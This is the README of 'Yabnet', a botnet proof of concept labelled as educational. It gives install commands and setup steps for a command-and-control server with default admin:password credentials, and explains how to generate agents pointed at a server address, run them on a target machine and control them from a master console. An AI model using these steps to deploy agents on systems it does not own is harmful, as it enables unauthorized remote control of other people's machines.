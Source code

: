 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.

## Disclaimer
Yabnet is a proof of concept tool which is only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

## Under Construction
**Yabnet is currently under construction.**

## Installation 

**Yabnet requires python3.7++**

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

```
cd /opt
git clone https://github.com/choisg/yabnet.git
cd /opt/yabnet
chmod +x install.sh
./install.sh
```

## Operation 

###Server setup
```
<Change MASTERNAME and MASTERPASSWORD in /server/server.py>
<Default is admin:password>

python3 ./server/server.py
```

###Agent setup

There are two options to setup agents. One is to create a static executable through freezing. Another way is to just simply create a `.py` file.

**1. Freezing - Executable**
```
python3 /opt/yabnet/agent/generator.py -i <server_ipaddress> -p <server_port> -f 
Example) python3 /opt/yabnet/agent/generator.py -i localhost -p 5000 -f 
```

**2. Plain python file**
```
python3 /opt/yabnet/agent/generator.py -i <server_ipaddress> -p <server_port>
Example) python3 /opt/yabnet/agent/generator.py -i localhost -p 5000
```

**Transfer the agent file** 

Transfer either `/opt/yabnet/agent/dist/agent_deploy_staticx` or `/opt/yabnet/agent/agent_deploy.py` to the target machine and run it

###Master setup

After server and the agent is setup, launch the master console.
Default credential for master is `admin:password`
```
python3 ./master/master.py
console# login -r localhost -u <user> -p <password>
console# list
``` 

`< All master console commands have help flag>`
`Example) push -h`

## Demo
<insert youtubelink here>